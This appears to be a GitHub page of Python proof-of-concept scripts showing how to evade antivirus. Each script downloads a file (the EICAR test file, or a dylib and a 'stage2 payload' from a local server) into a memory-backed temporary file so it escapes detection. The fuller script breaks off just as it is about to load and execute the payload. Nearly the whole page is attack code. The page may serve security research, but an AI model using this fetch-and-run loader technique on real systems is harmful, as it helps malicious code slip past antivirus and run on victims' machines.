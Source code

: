 ## PoC3

**detected by AV**:
```py
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
import requests
if '__main__' == __name__:
  # get the dylib from remote server
  r = requests.get("http://2016.eicar.org/download/eicar.com")
  r.raise_for_status()

  f = open("/tmp/eicsar.com", "wb")
  f.write(bytes(r.content))
  f.seek(0)
  f.close()
```

**undetected by AV**
```py
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
import tempfile
import requests
if '__main__' == __name__:
  # get the dylib from remote server
  r = requests.get("http://2016.eicar.org/download/eicar.com")
  r.raise_for_status()
  # create a NamedTemporaryFile object to hold the dylib
  f = tempfile.NamedTemporaryFile(delete=True)
  f.write(bytes(r.content))
  f.seek(0)
  f.close()
```

## PoC Full

Load the dylib and binary from a remote server using memory-backed tempfiles.

```py
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
import ctypes
import tempfile
import requests
if '__main__' == __name__:
  # get the dylib from remote server
  r = requests.get("http://localhost:8080/rlm.dylib")
  r.raise_for_status()

  # create a NamedTemporaryFile object to hold the dylib
  f = tempfile.NamedTemporaryFile(delete=True)
  f.write(bytes(r.content))
  f.seek(0)

  # get the stage2 payload from the server
  r = requests.get("http://localhost:8080/t1")
  r.raise_for_status()

  # create a NamedTemporaryFile object to hold the binary
  b = tempfile.NamedTemporaryFile(delete=True)
  b.write(bytes(r.content))
  b.seek(0)
  
  # load the dylib from the tempfile and execute the stage2 payload
```